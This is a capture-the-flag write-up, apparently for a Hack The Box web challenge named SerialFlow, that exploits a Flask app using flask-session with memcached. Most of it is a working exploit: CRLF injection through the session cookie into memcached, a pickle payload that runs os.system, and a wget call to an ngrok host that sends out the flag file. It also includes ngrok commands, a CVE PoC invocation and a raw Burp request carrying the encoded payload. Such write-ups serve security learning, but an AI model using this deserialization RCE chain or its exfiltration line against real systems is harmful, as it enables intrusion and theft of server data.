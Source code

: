 ## Title 

SerialFlow

## Description

SerialFlow is the main global network used by KORP, you have managed to reach a root server web interface by traversing KORP's external proxy network. Can you break into the root server and open pandoras box by revealing the truth behind KORP?

## Solution

This challenge as less code but its more difficult to understand.
Essentially we have a python application that uses memcache to store the sessions.
It has two endpoints:
    - `/` that shows some javascript animations
    - `/set?uicolor=` That receives a parameter called uicolor that is saved in the session and is used in the first endpoint to change the color of the animations.
The first endpoint uses render_template and there is no filters in the uicolor parameter.
The problem is that it only uses the `uicolor` variable in javascript and css, not directly in the html.
I have found a vulnerability called `Memcached Poisoning`, https://github.com/CarlosG13/CVE-2021-33026 and https://nvd.nist.gov/vuln/detail/CVE-2021-33026, that needs to have access to the memcached service. However the service is not exposed in this challenge. I have tried to use the poc but failed:

`python3 cve-2021-33026_PoC.py --cookie session:94bdf0de-30ed-4b8b-adbf-c6fba2794280 --rhost 127.0.0.1 --rport 1337 --cmd ls`

If we find a way to communicate with the memcached server using another exploit we might be successful using this exploit.

After digging a bit on the internet i found an article talking about memcached injections and flask-session: [https://btlfry.gitlab.io/notes/posts/memcached-command-injections-at-pylibmc/]().
The article explains that there is a vulnerability in the flask-session when using memcached with a Cariage Return technique. They have used a cookie called nosecret but we will use the cookie session because thats the one which is used to store the sessions on memcached. In order to exploit this challenge we first used **ngrok**(`ngrok http --domain=mutually-cheerful-meerkat.ngrok-free.app 8000`) to receive a request to make sure it is vulnerable(`wget https://mutually-cheerful-meerkat.ngrok-free.app/`), then we can try to retrieve the flag(`wget https://mutually-cheerful-meerkat.ngrok-free.app/$(cat /flag*)`).
Note: We needed to open a python http server in order to receive the entire flag `python3 -m http.server`.

The exploit is bellow:

```python exploit.py
import pickle
import os

class RCE:
    def __reduce__(self):
        cmd = ('wget https://mutually-cheerful-meerkat.ngrok-free.app/$(cat /flag*)')
        return os.system, (cmd,)

def generate_exploit():
    payload = pickle.dumps(RCE(), 0)
    payload_size = len(payload)
    cookie = b'137\r\nset BT_:1337 0 2592000 '
    cookie += str.encode(str(payload_size))
    cookie += str.encode('\r\n')
    cookie += payload
    cookie += str.encode('\r\n')
    cookie += str.encode('get BT_:1337')

    pack = ''
    for x in list(cookie):
        if x > 64:
            pack += oct(x).replace("0o","\\")
        elif x < 8:
            pack += oct(x).replace("0o","\\00")
        else:
            pack += oct(x).replace("0o","\\0")

    return f"\"{pack}\""

print(generate_exploit())
```

After generate the exploit(`python3 exploit.py`) just put it in the burp request and used the endpoint to set the color of ui:

```shell
GET /set?uicolor=green HTTP/1.1
Host: 83.136.250.225:43293
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: session="\061\063\067\015\012\163\145\164\040\102\124\137\072\061\063\063\067\040\060\040\062\065\071\062\060\060\060\040\071\071\015\012\143\160\157\163\151\170\012\163\171\163\164\145\155\012\160\060\012\050\126\167\147\145\164\040\150\164\164\160\163\072\057\057\155\165\164\165\141\154\154\171\055\143\150\145\145\162\146\165\154\055\155\145\145\162\153\141\164\056\156\147\162\157\153\055\146\162\145\145\056\141\160\160\057\044\050\143\141\164\040\057\146\154\141\147\052\051\012\160\061\012\164\160\062\012\122\160\063\012\056\015\012\147\145\164\040\102\124\137\072\061\063\063\067";
Upgrade-Insecure-Requests: 1

```


Flag: `HTB{y0u_th0ught_th15_wou1d_b3_s1mpl3?}`